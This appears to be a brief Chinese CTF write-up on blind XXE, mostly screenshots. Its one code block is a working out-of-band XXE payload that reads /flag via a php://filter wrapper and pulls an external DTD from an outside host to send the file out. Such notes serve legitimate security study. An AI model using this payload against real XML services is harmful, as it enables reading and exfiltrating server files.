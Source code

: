 # 知识点
XML无回显
# 思路
> 自己的方法一

![image.png](./images/20231017_2355405131.png)<br />![image.png](./images/20231017_2355414677.png)<br />![image.png](./images/20231017_2355426128.png)<br />![image.png](./images/20231017_2355437736.png)
> 别人的方法二

```xml
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM 
"php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM
"http://www.qiluo0133.com:1108/pd.dtd">
%dtd;
%send;
]>
```
![image.png](./images/20231017_2355443220.png)<br />![image.png](./images/20231017_2355456594.png)<br />![image.png](./images/20231017_2355471775.png)<br />![image.png](./images/20231017_2355484591.png)<br />![image.png](./images/20231017_2355495468.png)
